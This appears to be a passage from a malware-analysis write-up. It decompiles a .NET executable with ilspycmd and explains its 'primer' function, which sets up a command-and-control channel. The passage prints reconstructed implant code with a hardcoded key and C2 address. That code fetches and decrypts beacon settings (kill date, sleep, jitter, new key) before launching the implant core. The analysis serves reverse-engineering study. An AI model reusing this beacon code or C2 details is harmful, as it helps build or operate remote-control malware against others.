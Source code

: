 Back to the working directory, executing file on the decrypted executable returns **Intel 80386 Mono/.Net assembly.** This means we can unpack it with ilspycmd and read the source code. 

```python
mkdir tmp7102591
ilspycmd -o tmp7102591 -p tmp7102591.exe
```

Now, we need to understand the mechanism of the executable before going any further.  

### 2. tmp7102591.exe

There is only one file Program.cs, which should be enough to understand the mechanism. There are two internal classes to the public class Program: 

- UrlGen
- ImgGen

The function **Main** calls **Sharp** (of course…) which initiates the whole thing by calling the function ****************primer.**************** 

Function primer does a bunch of things, and eventually runs **ImplantCore,** which I believe, is the heart of the C2 channel. 

1. ******************************Primer******************************

This is a modified version of the code, basically summarizes the key points of the function:

 

```python
key = "DGCzi057IDmHvgTVE2gm60w8quqfpMD+o8qCBGpYItc="
text3="http://64.226.84.200:8080"
text5 = text3 + "/Kettie/Emmie/Anni?Theda=Merrilee?c"
enc = GetWebRequest(Encryption(key, un)).DownloadString(text5)
text2 = Decryption(key, enc)

Regex val = new Regex("RANDOMURI19901(.*)10991IRUMODNAR");
Match val2 = val.Match(text2);
string randomURI = ((object)val2.get_Groups().get_Item(1)).ToString();
val = new Regex("URLS10484390243(.*)34209348401SLRU");
val2 = val.Match(text2);
string stringURLS = ((object)val2.get_Groups().get_Item(1)).ToString();
val = new Regex("KILLDATE1665(.*)5661ETADLLIK");
val2 = val.Match(text2);
string killDate = ((object)val2.get_Groups().get_Item(1)).ToString();
val = new Regex("SLEEP98001(.*)10089PEELS");
val2 = val.Match(text2);
string sleep = ((object)val2.get_Groups().get_Item(1)).ToString();
val = new Regex("JITTER2025(.*)5202RETTIJ");
val2 = val.Match(text2);
string jitter = ((object)val2.get_Groups().get_Item(1)).ToString();
val = new Regex("NEWKEY8839394(.*)4939388YEKWEN");
val2 = val.Match(text2);
string key2 = ((object)val2.get_Groups().get_Item(1)).ToString();
val = new Regex("IMGS19459394(.*)49395491SGMI");
val2 = val.Match(text2);
string stringIMGS = ((object)val2.get_Groups().get_Item(1)).ToString()

ImplantCore(text3, randomURI, stringURLS, killDate, sleep, key2, stringIMGS, jitter)
```
